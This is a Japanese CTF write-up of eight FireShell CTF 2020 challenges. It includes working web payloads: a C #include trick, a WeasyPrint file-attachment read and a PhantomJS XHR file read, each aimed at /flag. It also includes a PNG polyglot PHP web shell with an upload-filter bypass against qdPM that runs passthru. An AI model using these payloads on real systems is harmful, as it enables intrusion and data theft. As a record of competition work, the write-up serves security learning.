

3 月 22 日から 3 月 23 日にかけて開催された [FireShell CTF 2020](https://2020.angstromctf.com/) に、チーム zer0pts として参加しました。最終的にチームで 7637 点を獲得し、順位は 100 点以上得点した 308 チーム中 3 位でした。うち、私は 8 問を解いて 3472 点を入れました。

以下、私が解いた問題の write-up です。

## [web 100] Caas (170 solves)
> Compiler as a Service
> 
> Too lazy to install gcc? Hey, we can compile your code to you!
> 
> flag is on /flag
> 
> (URL)

与えられた URL にアクセスすると、以下のようなコードの入力フォームが表示されました。


コードを入力して送信するとコンパイルしてくれるようです。一体何の言語でしょうか。とりあえず `a` を入力して送信してみると、以下のようなエラーメッセージが表示されました。

```
b'/tmp/caas_pm4g0_md.c:1:1: error: expected \xe2\x80\x98=\xe2\x80\x99, \xe2\x80\x98,\xe2\x80\x99, \xe2\x80\x98;\xe2\x80\x99, \xe2\x80\x98asm\xe2\x80\x99 or \xe2\x80\x98__attribute__\xe2\x80\x99 at end of input\n a\n ^\n
```

`.c` という拡張子から C と推測できます。問題文によると `/flag` にフラグがあるそうなので、`#include` ディレクティブを使って読み込ませてみましょう。`#include "/flag"` を入力すると以下のようなエラーメッセージが表示されました。

```
b'In file included from /tmp/caas_5hjw0at0.c:1:\n/flag:1:2: error: stray \xe2\x80\x98#\xe2\x80\x99 in program\n F#{D1d_y0u_1nclud3_th3_fl4g?}\n ^\n/flag:1:3: error: expected \xe2\x80\x98=\xe2\x80\x99, \xe2\x80\x98,\xe2\x80\x99, \xe2\x80\x98;\xe2\x80\x99, \xe2\x80\x98asm\xe2\x80\x99 or \xe2\x80\x98__attribute__\xe2\x80\x99 before \xe2\x80\x98{\xe2\x80\x99 token\n F#{D1d_y0u_1nclud3_th3_fl4g?}\n ^\n
```

フラグが得られました。

```
F#{D1d_y0u_1nclud3_th3_fl4g?}
```

## [web 418] URL to PDF (69 solves)
> Please test our brand new service.
> 
> flag is on /flag
> 
> (URL)

与えられた URL にアクセスすると、以下のような URL の入力フォームが表示されました。


試しに `http://example.com` を入力してみると、Web サイトを PDF 化したものが表示されました。今回も `/flag` にフラグがあるということで `file:///flag` を入力してみましたが、`Invalid URL!` と怒られてしまいました。

一体どのようなツールを使って Web ページを PDF 化しているのでしょうか。User-Agent からなにか情報が得られないか、[Webhook.site](https://webhook.site/) で生成された URL を投げてみましょう。

> User-Agent: WeasyPrint 51 (http://weasyprint.org/)

[WeasyPrint 51](http://weasyprint.org/) を使っているようです。使われているバージョンは最新のようです。

`weasyprint vulnerability` でググってみると、[#513525 Several vulnerabilities lead to Remote Code Execution and Arbitraty File Read on multiple servers](https://hackerone.com/reports/513525) というそれっぽい HackerOne のレポートがヒットしました。どうやら `<link rel="attachment" href="(パス)">` のような HTML タグを使うことで PDF にローカルのファイルを埋め込ませることができるようです、

早速 `<link rel="attachment" href="file:///flag">` を含む Web ページにアクセスさせ、出力された PDF の添付ファイルを確認するとフラグが得られました。

```
F#{th4nk5_t0_Ben_Sadeghipour_&_Cody_Brocious}
```

## [web 469] Screenshoter (43 solves)
> Turn your beautiful website into an image with our new tool!
> 
> flag is on /flag
> 
> (URL)

与えられた URL にアクセスすると、以下のような URL の入力フォームが表示されました。


試しに `http://example.com` を入力してみると、この Web サイトを PNG にしたものが表示されました。今回も `/flag` にフラグがあるということで `file:///flag` を入力してみましたが、やはり `Bad URL!` と怒られてしまいました。

今度は一体どのようなツールを使って Web ページを画像化しているのでしょうか。User-Agent からなにか情報が得られないか、[Webhook.site](https://webhook.site/) で生成された URL を投げてみましょう。

> User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1

[PhantomJS](https://phantomjs.org/) が使われているようです。バージョンは最新ですが、これは 4 年前のものです。なにか脆弱性がないかググってみると、[CVE-2019-17221](https://nvd.nist.gov/vuln/detail/CVE-2019-17221) がヒットしました。どうやら XHR で `file://` URI を読み込ませることができるようです。やってみましょう。

以下のような HTML を用意します。

```html
<!doctype html>
<html lang="en">
  <head>
    <title>test</title>
    <style>body { background: white; }</style>
  </head>
  <body>
    <script>
      var xhr = new XMLHttpRequest();
      xhr.onload = function () {
        document.body.innerText = xhr.responseText;
      };
      xhr.open('GET', 'file:///flag');
      xhr.send();
    </script>
  </body>
</html>
```

これにアクセスさせると、以下のような画像が返ってきました。


フラグが得られました。

```
F#{R3ally_b4d_Ph4nT0m_!!}
```

## [web 499] wfPM (10 solves)
> Because Project Management and Security walks side by side.
> 
> (URL)

与えられた URL にアクセスすると、以下のようなログインフォームが表示されました。



中途半端なバージョンといいこのいい感じのログインフォームといい、既存のソフトウェアを使っていそうな雰囲気がありますが、ググってみても wfPM というソフトウェアは見つかりません。ページ下部にリンクのある `wfpm.net` もドメインが売りに出されており、また Wayback Machine を見てもコンテンツが存在していた時期は (おそらく) ないようです。

このページから読み込まれている `/js/app.js` を見てみると、最初の方に以下のようなライセンス表記がありました。

```javascript
/**
*qdPM
*
* NOTICE OF LICENSE
*
* This source file is subject to the Open Software License (OSL 3.0)
* that is bundled with this package in the file LICENSE.txt.
* It is also available through the world-wide-web at this URL:
* http://opensource.org/licenses/osl-3.0.php
* If you did not receive a copy of the license and are unable to
* obtain it through the world-wide-web, please send an email
* to license@qdPM.net so we can send you a copy immediately.
*
* DISCLAIMER
*
* Do not edit or add to this file if you wish to upgrade qdPM to newer
* versions in the future. If you wish to customize qdPM for your
* needs please refer to http://www.qdPM.net for more information.
*
* @copyright  Copyright (c) 2009  Sergey Kharchishin and Kym Romanets (http://www.qdpm.net)
* @license    http://opensource.org/licenses/osl-3.0.php  Open Software License (OSL 3.0)
*/
```

[qdPM](http://qdpm.net/) というソフトウェアを使っているようです。

ただ、使われているソフトウェアがわかってもログインできなければなにもできません。困って [webfuck](https://github.com/m---/webfuck) を回してみると、以下のような内容の `robots.txt` が見つかりました。

```
User-agent: *
Disallow: /register.php
```

`/register.php` にアクセスすると、以下のような登録フォームが表示されました。


ここで適当な内容を入力してユーザ登録すると、ログインができるようになりました。

では、脆弱性を探していきましょう。`qdPM 9.1 vulnerability` でググると [CVE-2020-7246](https://nvd.nist.gov/vuln/detail/CVE-2020-7246) という RCE に持ち込める脆弱性が見つかり、さらに [PoC](https://packetstormsecurity.com/files/156571/qdPM-Remote-Code-Execution.html) も存在していることがわかりました。

早速 PoC に少し変更を加えて実行してみましたが、なにも起こりません。この PoC ではプロフィール画面に存在するアバターの削除機能を悪用して画像のアップロード先のディレクトリに存在する `.htaccess` を削除し、続いて `payload.php` のようなファイルをアップロードしているようです。

Web ブラウザを使って自分でこの手順を再現しようとしてみたところ、画像を削除しようとしたり、`.php` という拡張子のファイルをアップロードしようとすると `Nope` と表示され処理が中止されてしまうことがわかりました。この CTF に作られたものかどこかで配布されているものかは知りませんが、どうやらパッチが当てられているようです。

色々試していると、`a.php.png` のように拡張子の前に `.php` を挟んだファイル名でファイルをアップロードすると、アップロード後のファイル名でも `.php.png` は保持され、またアクセスすると `Content-Type: text/html; charset=UTF-8` のようなヘッダを返すことがわかりました。`a.png` のような普通のファイル名であれば `Content-Type: image/png` を返すので、おそらく PHP コードとして解釈され実行されているのでしょう。

あとは `tEXt` チャンクや `PLTE` チャンクに `<?php eval($_GET['0']); ?>` のようなコードを仕込んで終わりかと思いきや、うまく動きません。アップロード後のファイルをダウンロードしてバイナリエディタで見てみると `tEXt` チャンク等が削除されており、また `IDAT` チャンクの内容も大きく変わっているため、サーバ側でなんらかの変換が行われていることが推測できます。

色々試していると、以下のように `IHDR` チャンクの前に適当なチャンクを挿入した PNG ファイルをアップロードした場合、この変換は全く行われないことに気づきました。

```
0000000: 8950 4e47 0d0a 1a0a 0000 0004 7449 4d45  .PNG........tIME
0000010: 4142 4344 0000 0000 0000 000d 4948 4452  ABCD........IHDR
0000020: 4142 4344 4546 4748 4a4b 4c4d 4e4f 5051  ABCDEFGHJKLMNOPQ
0000030: 5200 0000 4e49 4441 5458 c3ed d931 0a00  R...NIDATX...1..
0000040: 3008 0340 edff ff6c 8742 f101 1d2c 5c36  0..@...l.B...,\6
0000050: b723 8ec9 aa8a 7959 3132 5858 5858 5858  .#....yY12XXXXXX
0000060: 5858 5858 5858 5858 5858 5858 5858 5858  XXXXXXXXXXXXXXXX
0000070: 588f 7396 8abb 57f4 33ad 18da f244 6d7d  X.s...W.3....Dm}
0000080: d6d6 066f e73f 21e1 dda9 9700 0000 0049  ...o.?!........I
0000090: 454e 44ae 4260 82                        END.B`.
```

なんと `IHDR` というチャンク名を `ABCD` に変えてしまってもサーバはそれを受け入れてしまいます。これを利用して `<?=eval($_GET[0]);?>` というコードを埋め込み、以下のような内容で `payload.php.png` というファイル名でアップロードします。

```
0000000: 8950 4e47 0d0a 1a0a 0000 0004 7449 4d45  .PNG........tIME
0000010: 4142 4344 0000 0000 0000 000d 3c3f 3d65  ABCD........<?=e
0000020: 7661 6c28 245f 4745 545b 305d 293b 3f3e  val($_GET[0]);?>
0000030: 5200 0000 4e49 4441 5458 c3ed d931 0a00  R...NIDATX...1..
0000040: 3008 0340 edff ff6c 8742 f101 1d2c 5c36  0..@...l.B...,\6
0000050: b723 8ec9 aa8a 7959 3132 5858 5858 5858  .#....yY12XXXXXX
0000060: 5858 5858 5858 5858 5858 5858 5858 5858  XXXXXXXXXXXXXXXX
0000070: 588f 7396 8abb 57f4 33ad 18da f244 6d7d  X.s...W.3....Dm}
0000080: d6d6 066f e73f 21e1 dda9 9700 0000 0049  ...o.?!........I
0000090: 454e 44ae 4260 82                        END.B`.
```

`/uploads/users/(乱数)-payload.php.png?0=passthru(%27printenv%27);` にアクセスすると、以下のようにフラグが表示されました。

```
︙
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT=tcp://10.245.0.1:443
HOSTNAME=wfpm-654cdbf47b-ddhg9
SHLVL=2
HOME=/root
KUBERNETES_PORT_443_TCP_ADDR=10.245.0.1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT_443_TCP=tcp://10.245.0.1:443
KUBERNETES_SERVICE_HOST=10.245.0.1
PWD=/var/www/localhost/htdocs/uploads/users
FLAG=F#{3Xp01tdB_r353@rcH_5@v1nG_L1v35!!}
︙
```

```
F#{3Xp01tdB_r353@rcH_5@v1nG_L1v35!!}
```

## [web 500] Coronacaptcha (8 solves)
> Do you know how to break corona virus captcha? Try it! URL: (URL)
> 
> Flag appears when you get 5 right responses

与えられた URL にアクセスすると、以下のような謎の CAPTCHA が表示されました。


提示された単語に当てはまるアイコンをラジオボタンで選択し、テキストボックスに提示された単語を入力すればよいようです。手でやってみましたが、どれだけ早くやっても `You got it right, but it was slow...` と怒られてしまいます。自動化しろということでしょう。

まずは単語に対応するアイコンを集めましょう。以下の 2 枚の画像はいずれも `elderly` という単語が提示された際に表示されたものです。


5 つのアイコンが表示される位置や 7 本の線の位置とサイズは同じようですが、アイコンに少し回転が入っています。画像を 5 つに分割し、それぞれ黒 (`rgba(0, 0, 0, 255)`) になっているピクセル数を計算して、事前に収集しておいた各アイコンのうち、もっとも黒のピクセル数が近いものの単語を回答するという方針でいきましょう。

```python
import glob
import io
import os.path
import re
import requests
from PIL import Image, ImageDraw

SIZE = 96
WIDTH, HEIGHT = 480, 96

def get_pieces(im):
  res = []
  for i in range(5):
    crop = im.crop((SIZE * i, 0, SIZE * (i + 1), HEIGHT))
    res.append(tuple(crop.getdata()).count((0, 0, 0, 255)))
  return res

def get_nearest_index(a, target):
  return a.index(sorted(a, key=lambda x: abs(x - target))[0])

# init
table = {}
for f in glob.glob('images/*.png'): # images/(word)(index).png
  im = Image.open(f)
  draw = ImageDraw.Draw(im)

  f = os.path.basename(f)
  name, i = f[:-5], int(f[-5])

  table[name] = get_pieces(im)[i]

# go!
URL = '(省略)'
sess = requests.Session()
req = sess.get(URL)
while True:
  target = re.findall(r'<strong>(.+)</strong>', req.text)[0]
  image_path = re.findall(r'/images/.+\.png', req.text)[0]
  image = requests.get(URL + image_path).content
  pieces = get_pieces(Image.open(io.BytesIO(image)))
  index = get_nearest_index(pieces, table[target])
  print(target, index)

  req = sess.post(URL, data={
    'icon': target, 'labelIcon': index
  })
  print(req.text)
```

実行します。

```
$ python3 solve.py
︙
elderly 0

      <iframe width="1000" height="347" src="https://www.youtube.com/embed/qi1kXHfOK6U" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
      <p>FLAG IS: F#{CORONA_VIRUS_IS_DANGEROUS__STAY_AT_HOME}.</p>

      <a href="https://bing.com/covid">For more information</a>
```

フラグが得られました。

```
F#{CORONA_VIRUS_IS_DANGEROUS__STAY_AT_HOME}
```

## [misc 492] Against the Perfect discord Inquisitor 1 (23 solves)
> You're on a journey and come to the Tavern of a Kingdom Enemy, you need to get information of a secret organization for the next quest. Be careful about the Inquisitor! He can ban you from this world.
> 
> TL;DR find the flag
> 
> Kingdom Chall (Discord サーバの招待リンク)

与えられた Discord サーバに入ると `#tavern` というチャンネルだけが見られる状態でした。

とりあえず色々 API を叩いてみましょう。Discord のデベロッパーモードを有効化し、サーバの ID を取得すると `688190172793536536` であることがわかりました。Discord のドキュメントを参考に、以下のようなコードで [`GET/guilds/{guild.id}`](https://discordapp.com/developers/docs/resources/guild#get-guild) を叩きます。

```python
import requests
BASE = 'https://canary.discordapp.com/api/v6'
AUTH_TOKEN = '(省略)'
req = requests.get(BASE + '/guilds/688190172793536536', headers={'authorization': AUTH_TOKEN})
print(req.text)
```

```json
{
    "id": "688190172793536536",
    "name": "Kingdom Chall",
    "icon": "55b6c231545efc1cfb493c6f9bce8ef6",
    "description": null,
    "splash": null,
    "discovery_splash": null,
    "features": [],
    "emojis": [],
    "banner": null,
    "owner_id": "229759671039164416",
    "application_id": null,
    "region": "brazil",
    "afk_channel_id": null,
    "afk_timeout": 300,
    "system_channel_id": "688190172793536545",
    "widget_enabled": false,
    "widget_channel_id": null,
    "verification_level": 0,
    "roles": [{
        "id": "688190172793536536",
        "name": "@everyone",
        "permissions": 104324673,
        "position": 0,
        "color": 0,
        "hoist": false,
        "managed": false,
        "mentionable": false
    }, {
        "id": "688190424124227590",
        "name": "RoundTableMember",
        "permissions": 104324673,
        "position": 1,
        "color": 15844367,
        "hoist": false,
        "managed": false,
        "mentionable": false
    }, {
        "id": "688806853794463762",
        "name": "Gandalf",
        "permissions": 8,
        "position": 2,
        "color": 3447003,
        "hoist": true,
        "managed": true,
        "mentionable": false
    }],
    "default_message_notifications": 0,
    "mfa_level": 0,
    "explicit_content_filter": 0,
    "max_presences": null,
    "max_members": 250000,
    "vanity_url_code": null,
    "premium_tier": 0,
    "premium_subscription_count": 0,
    "system_channel_flags": 0,
    "preferred_locale": "en-US",
    "rules_channel_id": null,
    "public_updates_channel_id": null,
    "embed_enabled": false,
    "embed_channel_id": null
}
```

`RoundTableMember` というロールがあるようです。怪しい。このロールしか見られないチャンネルがないか確認するため、[`GET/guilds/{guild.id}/channels`](https://discordapp.com/developers/docs/resources/guild#get-guild-channels) を叩きます。

```json
[{
    "id": "688190172793536539",
    "type": 4,
    "name": "Kingdom",
    "position": 0,
    "parent_id": null,
    "guild_id": "688190172793536536",
    "permission_overwrites": [],
    "nsfw": false
}, {
    "id": "688190172793536545",
    "last_message_id": "691099151416426496",
    "type": 0,
    "name": "tavern",
    "position": 0,
    "parent_id": "688190172793536539",
    "topic": "A place of business where people gather to drink alcoholic beverages and be served food, and in most cases, where travelers receive lodging.",
    "guild_id": "688190172793536536",
    "permission_overwrites": [{
        "id": "688190172793536536",
        "type": "role",
        "allow": 0,
        "deny": 2048
    }],
    "nsfw": false,
    "rate_limit_per_user": 0
}, {
    "id": "688190289814618213",
    "last_message_id": "688214063595258088",
    "type": 0,
    "name": "hidden-round-table",
    "position": 1,
    "parent_id": "688190172793536539",
    "topic": "F#{The_Table_of_King_Arthur}",
    "guild_id": "688190172793536536",
    "permission_overwrites": [{
        "id": "688190172793536536",
        "type": "role",
        "allow": 0,
        "deny": 3072
    }, {
        "id": "688190424124227590",
        "type": "role",
        "allow": 3072,
        "deny": 0
    }],
    "nsfw": false,
    "rate_limit_per_user": 0
}]
```

`#hidden-round-table` というチャンネルがあるようです。よく見るとトピックにフラグが書かれています。

```
F#{The_Table_of_King_Arthur}
```

## [misc 499] Against the Perfect discord Inquisitor 2 (11 solves)
> There is a mage in the tavern that reveals secrets from the place. He is friendly, so he can help you! Be careful about the Inquisitor! He can ban you from this world.
> 
> TL;DR use the bot to get the flag
> 
> Kingdom Chall (Discord サーバの招待リンク)

Against the Perfect discord Inquisitor 1 の続きのようです。このサーバには Gandalf という bot が常駐しており、現在プレイしているゲームの欄に `You're welcome! Free reveals with command: $reveal_secret (channel.id) (message.id)` というメッセージが書かれていました。

先程の JSON を見るに、`#hidden-round-table` のチャンネル ID は `688190289814618213`で、最新のメッセージの ID は `688214063595258088` ということなので、`$reveal_secret 688190289814618213 688214063595258088` を投げてみます。

> Gandalf ボット 今日 10:52
RiN7UzRiM1JfMTVfVGgzX0sxbmdfQXJ0aHVyfQ==

これを Base64 デコードするとフラグが得られました。

```
F#{S4b3R_15_Th3_K1ng_Arthur}
```

## [rev 495] Is this Rev? (18 solves)
> A simple php flag validator, validate your flag!
> 
> (URL)

与えられた URL にアクセスすると、以下のようなフラグの入力フォームが表示されました。


ソースを見ると、`<!-- /source.txt for source code????? -->` というコメントが埋め込まれていることが確認できます。`/source.txt` にアクセスすると以下のようなテキストファイルが返ってきました。

```
compiled vars:  !0 = $flag_input, !1 = $what_is_thiss, !2 = $what_is_thisss, !3 = $char
line     #* E I O op                           fetch          ext  return  operands
-------------------------------------------------------------------------------------
   1     0  E >   ECHO                                                     '%3C%21DOCTYPE+html%3E%0A%3Chtml+lang%3D%22en%22%3E%0A%3Chead%3E%0A++++%3Cmeta+charset%3D%22UTF-8%22%3E%0A++++%3Cmeta+name%3D%22viewport%22+content%3D%22width%3Ddevice-width%2C+initial-scale%3D1.0%22%3E%0A++++%3Ctitle%3EFireshell+CTF%3C%2Ftitle%3E%0A%3C%2Fhead%3E%0A%3Cbody%3E%0A++++%3Ch1%3EValidate+your+flag%3C%2Fh1%3E%3C%2Fbr%3E%0A%0A++++%3Cform+action%3D%22%22+method%3D%22POST%22%3E%0A++++++++%3Cinput+type%3D%22text%22+id%3D%22flag%22+name%3D%22flag%22+placeholder%3D%22Input+Flag%22+size%3D%2230%22%3E%0A++++++++%3Cbutton+type%3D%22submit%22+value%3D%22send%22%3EValidate%3C%2Fbutton%3E%0A++++%3C%2Fform%3E%0A%0A++++'
  20     1        INIT_FCALL                                               'str_split'
         2        FETCH_R                      global              ~4      '_POST'
         3        FETCH_DIM_R                                      ~5      ~4, 'flag'
         4        SEND_VAL                                                 ~5
         5        DO_ICALL                                         $6
         6        ASSIGN                                                   !0, $6
  21     7        ASSIGN                                                   !1, <array>
  23     8        ASSIGN                                                   !2, 0
  31     9      > FE_RESET_R                                       $10     !0, ->16
        10    > > FE_FETCH_R                                               $10, !3, ->16
  32    11    >   INIT_FCALL                                               'ord'
        12        SEND_VAR                                                 !3
        13        DO_ICALL                                         $11
        14        ASSIGN_OP                                     1          !2, $11
  31    15      > JMP                                                      ->10
        16    >   FE_FREE                                                  $10
  34    17        IS_EQUAL                                         ~13     !2, 2434
        18      > JMPZ                                                     ~13, ->276
  35    19    >   COUNT                                            ~14     !0
        20        IS_EQUAL                                         ~15     ~14, 26
        21      > JMPZ                                                     ~15, ->276
  36    22    >   INIT_FCALL                                               'chr'
        23        INIT_FCALL                                               'ord'
        24        FETCH_DIM_R                                      ~16     !1, 0
        25        SEND_VAL                                                 ~16
        26        DO_ICALL                                         $17
        27        ADD                                              ~18     $17, 5
        28        SEND_VAL                                                 ~18
        29        DO_ICALL                                         $19
        30        IS_EQUAL                                         ~20     $19, 'F'
        31      > JMPZ                                                     ~20, ->276
  37    32    >   INIT_FCALL                                               'chr'
        33        INIT_FCALL                                               'ord'
        34        FETCH_DIM_R                                      ~21     !1, 1
        35        SEND_VAL                                                 ~21
        36        DO_ICALL                                         $22
        37        SUB                                              ~23     $22, 31
        38        SEND_VAL                                                 ~23
        39        DO_ICALL                                         $24
        40        IS_EQUAL                                         ~25     $24, '%23'
        41      > JMPZ                                                     ~25, ->276
︙
```

バイトコードでしょう。`FETCH_DIM_R` のような特徴的な命令から Zend Engine 2 のオペコードであることが推測できます。[InCTF 2019 の s3cur3-r3v](2019-09-26-inctf2019.html#s3cur3-r3v-856) といいこれといい、流行っているのでしょうか。

これをデコンパイルすると以下のようになります。

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Fireshell CTF</title>
</head>
<body>
    <h1>Validate your flag</h1></br>

    <form action="" method="POST">
        <input type="text" id="flag" name="flag" placeholder="Input Flag" size="30">
        <button type="submit" value="send">Validate</button>
    </form>

    
<!-- /source.txt for source code????? --> 

</body>
</html>
<?php $a = str_split($_POST['flag']); // !0
$b = [/*unknown*/]; // !1
$c = 0; // !2


foreach ($a as $d) /* !3 */ {
  $c += ord($d); // ???
}
if ($c == 2434) {
  if (count($a) == 26) {
    if (chr(ord($b[0]) + 5) == 'F') {
      if (chr(ord($b[1]) - 31) == '#') {
        if (chr(ord($b[2]) + 56) == '{') {
          if (chr(ord($b[25]) + 35) == '}') {
            if ($a[6] == $a[11] && $a[17] == $a[21]) {
              if ($a[14] == 'r') {
                if ($a[5] == $a[3]) {
                  if ($a[10] == $a[13] && $a[13] == $a[19]) {
                    if (ord($a[4]) - sqrt(ord($b[16])) == ord($a[21])) {
                      if (ord($a[24]) + ord($a[23]) + ord($a[22]) == 283) {
                        if (ord($a[7]) == ord($a[15]) - 55) {
                          if (ord($a[8]) == ord($a[0]) + 38) {
                            if (ord($a[9]) == ord($a[8]) + 7) {
                              if (ord($a[12]) - ord($b[8]) == ord($a[3]) - 66) {
                                if (ord($a[10]) + 38 == ord($b[21])) {
                                  if (ord($a[3]) == ord($b[0]) + 47) {
                                    if (ord($b[13]) + 26 == ord($a[4])) {
                                      if (ord($a[15]) == ord($b[3]) * 2 - 29) {
                                        if (ord($a[14]) + ord($a[15]) + ord($a[16]) == 336) {
                                          if (ord($a[18]) - ord($a[20]) == -12) {
                                            if (ord($a[22]) == ord($a[20])) {
                                              if (ord($a[22]) - ord($a[24]) == -4) {
                                                if (ord($b[25]) - ord($a[24]) == -28) {
                                                  echo 'YEAH! You got it buddy :-)';
                                                  exit;
                                                }
                                              }
                                            }
                                          }
                                        }
                                      }
                                    }
                                  }
                                }
                              }
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
?>
</body>
</html>
```

[Z3](https://github.com/Z3Prover/z3) でぱぱっと解けそうな気がしますが、`$b` (本来は `$what_is_thiss`) が配列であるためにその内容が `source.txt` から得られないことが気になります。が、

```c
    if (chr(ord($b[0]) + 5) == 'F') {
      if (chr(ord($b[1]) - 31) == '#') {
        if (chr(ord($b[2]) + 56) == '{') {
          if (chr(ord($b[25]) + 35) == '}') {
```

という条件文から `['A', 'B', 'C', …, 'Z']` となることがわかり、`str_split('ABCDEFGHIJKLMNOPQRSTUVWXYZ')` が入ることが容易に想像できます。

これをもとに[ふるつきさん](https://twitter.com/theoremoon)の助けを借りながらソルバを書くことができました。

```python
from z3 import *
solver = Solver()

user_input = [Int('user_input_%d' % i) for i in range(26)]
what_is_thiss = [0x41 + x for x in range(26)]

for c in user_input:
  solver.add(Or(And(0x30 <= c, c <= 0x39), And(0x41 <= c, c <= 0x5a), And(0x61 <= c, c <= 0x7a), c == ord('_'), c == ord('#'), c == ord('{'), c == ord('}')))

for i, c in enumerate(what_is_thiss):
  solver.add(c == 0x41 + i)

solver.add(user_input[0] == ord('F'))
solver.add(user_input[1] == ord('#'))
solver.add(user_input[2] == ord('{'))
solver.add(user_input[25] == ord('}'))

solver.add(sum(user_input) == 2434)

solver.add(user_input[6] == user_input[11], user_input[17] == user_input[21])
solver.add(user_input[14] == ord('r'))
solver.add(user_input[5] == user_input[3])
solver.add(user_input[10] == user_input[13], user_input[13] == user_input[19])
solver.add(user_input[4] * user_input[4] - 2 * user_input[4] * user_input[21] +user_input[21] * user_input[21] == what_is_thiss[16])
solver.add(user_input[24] + user_input[23] + user_input[22] == 283)
solver.add(user_input[7] == user_input[15] - 55)
solver.add(user_input[8] == user_input[0] + 38)
solver.add(user_input[9] == user_input[8] + 7)
solver.add(user_input[12] - what_is_thiss[8] == user_input[3] - 66)
solver.add(user_input[10] + 38 == what_is_thiss[21])
solver.add(user_input[3] == what_is_thiss[0] + 47)
solver.add(what_is_thiss[13] + 26 == user_input[4])
solver.add(user_input[15] == what_is_thiss[3] * 2 - 29)
solver.add(user_input[14] + user_input[15] + user_input[16] == 336)
solver.add(user_input[18] - user_input[20] == -12)
solver.add(user_input[22] == user_input[20])
solver.add(user_input[22] - user_input[24] == -4)
solver.add(what_is_thiss[25] - user_input[24] == -28)

r = solver.check()
print r
m = solver.model()

res = ''
for c in user_input:
  res += chr(m[c].as_long())
print res
```

```
$ python2 solve.py
sat
F#{php_4ls0_w0rks_f0r_r3v}
```

```
F#{php_4ls0_w0rks_f0r_r3v}
```